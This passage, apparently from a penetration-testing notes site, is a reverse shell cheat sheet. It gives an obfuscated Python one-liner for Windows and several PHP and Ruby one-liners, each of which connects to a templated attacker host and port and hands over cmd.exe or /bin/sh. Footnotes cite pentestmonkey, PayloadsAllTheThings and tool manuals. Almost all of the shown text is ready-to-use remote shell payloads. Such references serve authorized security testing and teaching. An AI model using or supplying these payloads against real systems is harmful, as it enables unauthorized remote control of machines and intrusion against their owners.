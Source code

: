 ```sh
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('{{< param lhost >}}', {{< param lport >}})), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### PHP

```sh
php -r '$sock=fsockopen("{{< param lhost >}}",{{< param lport >}});exec("/bin/sh -i <&3 >&3 2>&3");'
```

```sh
php -r '$sock=fsockopen("{{< param lhost >}}",{{< param lport >}});$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```sh
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("{{< param lhost >}}","{{< param lport >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

```sh
ruby -rsocket -e'f=TCPSocket.open("{{< param lhost >}}",{{< param lport >}}).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Ruby Windows

```sh
ruby -rsocket -e 'c=TCPSocket.new("{{< param lhost >}}","{{< param lport >}}");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
[^python-pty-module]: “Pty — Pseudo-Terminal Utilities.” 3.8.3 Documentation, https://docs.python.org/3/library/pty.html.
[^stty]: “Stty.” Linux Manual Page, https://man7.org/linux/man-pages/man1/stty.1.html.